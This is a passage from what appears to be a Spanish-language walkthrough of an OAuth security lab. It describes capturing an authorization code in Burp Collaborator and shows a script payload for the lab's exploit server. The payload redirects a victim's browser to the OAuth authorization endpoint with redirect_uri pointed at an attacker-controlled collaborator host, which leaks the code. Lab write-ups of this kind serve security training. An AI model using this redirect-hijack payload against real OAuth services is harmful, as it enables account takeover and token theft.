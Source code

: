 ![](/assets/img/OAuth-Lab-4/image_14.png)

Si no nos vamos a `Burpsuite Collaborator` vemos que hemos `recibido` el `código`

![](/assets/img/OAuth-Lab-4/image_15.png)

Nos dirigimos al `Exploit server` y `creamos` este `payload`

```
<script>document.location="https://oauth-0a0f009a03ae2658802e15e602a900e9.oauth-server.net/auth?client_id=ddxknvc302zusuduj1u4p&redirect_uri=https://ebtousjjgb9a0buf1sr5k9tii9o3ct0i.oastify.com&response_type=code&scope=openid%20profile%20email"</script>
```

![](/assets/img/OAuth-Lab-4/image_16.png)
